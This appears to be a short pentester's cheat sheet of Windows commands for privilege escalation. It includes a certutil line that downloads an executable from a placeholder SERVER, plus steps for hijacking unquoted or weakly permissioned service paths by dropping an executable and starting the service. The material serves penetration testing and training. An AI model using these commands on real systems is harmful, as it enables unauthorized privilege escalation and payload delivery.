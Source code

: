 # Windows Snippets

wget for Windows:
```
certutil.exe -urlcache -f http://SERVER/FILE.exe OUTFILE.exe
```

check for impersonate privs and other privs:
```
whoami /priv
```

Run `dir` recursively:
```
gci -recurse .
```
# Exploiting Windows Services
Listing services for weak perms and unquoted service paths ([link](https://www.hackingarticles.in/windows-privilege-escalation-weak-services-permission/))
```
wmic service get name,startname,pathname
```
```
sc qc SERVICENAME # Check if BINARY_PATH_NAME calls an unquoted service path and see if is a priv esc opp
```
```
./accesschk /accepteula -uwdq "C:\DIR\FROM\ABOVE" # check write perms of a subdir of BINARY_PATH_NAME so we can commandeer the service call w our own executable
```
```
net start SERVICENAME # start the service after dropping our executable into the path
```

Kernel Priv Esc:
- save `systeminfo` output and run through the [Windows Exploit Suggester_new](https://github.com/bitsadmin/wesng)


## Tips
1. https://github.com/ankh2054/windows-pentest
